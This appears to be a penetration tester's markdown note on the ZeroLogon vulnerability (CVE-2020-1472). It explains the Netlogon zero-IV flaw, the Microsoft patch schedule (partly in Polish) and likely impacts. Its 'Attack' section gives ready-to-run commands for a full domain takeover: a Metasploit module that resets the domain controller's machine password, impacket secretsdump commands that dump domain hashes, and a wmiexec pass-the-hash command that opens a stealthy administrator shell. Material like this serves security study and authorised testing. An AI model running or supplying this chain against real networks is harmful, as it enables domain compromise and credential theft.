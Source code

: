 ## ZeroLogon
### Into
CVE-2020-1472

The core of the vulnerability lies in a poor implementation of the ComputeNetlogonCredential call of the Netlogon Remote Protocol (MS-NRPC). The ComputeNetlogonCredential takes an 8-byte challenge as an input, performs a cryptographic transformation using a session key (which proves knowledge of the computer secret), and outputs an 8-byte result. The issue lies in an implementation flaw in the newer method AES-CFB8 (which is also the only one allowed in newer Windows versions) which is used to perform this transformation.  
In order to use AES-CFB8 securely, a random initialization vector (IV) needs to be generated for every plaintext to be encrypted using the same key. However, the ComputeNetlogonCredential function sets the IV to a fixed value of 16 zero bytes. This results in a cryptographic flaw in which encryption of 8-bytes of zeros could yield a ciphertext of zeros with a probability of 1 in 256. Another implementation issue that allows this attack is that unencrypted Netlogon sessions aren’t rejected by servers (by default). The combination of these two flaws could allow an attacker to completely compromise the authentication, and thus to impersonate a server of their choice.*  
(* https://www.crowdstrike.com/blog/cve-2020-1472-zerologon-security-advisory/)
### Defense
Pierwszy etap został wydany 11 sierpnia (Patch Tuesday) w formie aktualizacji zabezpieczeń, która uniemożliwi kontrolerom domeny Windows Active Directory korzystanie z niezabezpieczonej komunikacji RPC.  
9 lutego 2021 r., W ramach kolejnej aktualizacji Patch Tuesday, Microsoft wyda drugą aktualizację, , która wymaga, aby wszystkie urządzenia w sieci korzystały z bezpiecznego RPC.  

### Impact
Password hashes
Shell
### Long impact
Golden Ticket attack  
Pass-the-Hash attack  
Silver Ticket attack  
### Attack
1. Check e.g. https://github.com/SecuraBV/CVE-2020-1472.git
2. Clear machine password.
Best effect (for me) with metasploit module.  
``auxiliary/admin/dcerpc/cve_2020_1472_zerologon``  
params: *set NBNAME _DOMAIN_CONTROLER_NAME_ set RHOSTS _IP_DOMAIN_CONTROLER_*  
OR  
sudo msfconsole -x "use auxiliary/admin/dcerpc/cve_2020_1472_zerologon; set RHOSTS $dstIP; set NBNAME $nbName; run; exit -y;"  

3. Hashes dump  
``python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc '_DOMAIN_NAME_/_DOMAIN_CONTROLER_NAME_$@_IP_DOMAIN_CONTROLER_'``  
or  
``python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 '_DOMAIN_NAME_/_DOMAIN_CONTROLER_NAME_$@_IP_DOMAIN_CONTROLER_'``  
4. Remote shell  
*wmiexec.py: A semi-interactive shell, used through Windows Management Instrumentation. It does not require to install any service/agent at the target server. Runs as Administrator. Highly stealthy.*
``python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -hashes _ADMIN_HASHES_ _ADMIN_@_IP_DOMAIN_CONTROLER_``



